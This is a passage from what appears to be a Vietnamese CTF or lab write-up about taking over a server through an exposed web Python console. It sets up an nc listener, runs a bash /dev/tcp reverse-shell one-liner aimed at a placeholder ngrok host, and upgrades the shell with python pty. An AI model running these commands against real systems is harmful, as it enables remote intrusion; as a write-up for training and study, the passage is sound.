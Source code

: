 Thiết lập nc listener

```bash
＄ nc -lvnp <port>
```

Ở python console trên web, ta sẽ thực hiện lệnh sau:

```python
import os
os.popen("bash -c 'bash -i >& /dev/tcp/NGROK_HOST/NGROK_PORT 0>&1'")
```

Câu lệnh trên lấy ở https://www.revshells.com/

![](./img/25.png)

Ta đã có shell với user `werkzeug`

![](./img/26.png)

## **Nâng cấp shell**

Việc đầu tiên khi có reverse shell là sẽ tìm cách cải thiện shell cho tốt hơn, dễ sử dụng. Do máy đã có python nên mình sẽ làm như sau:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
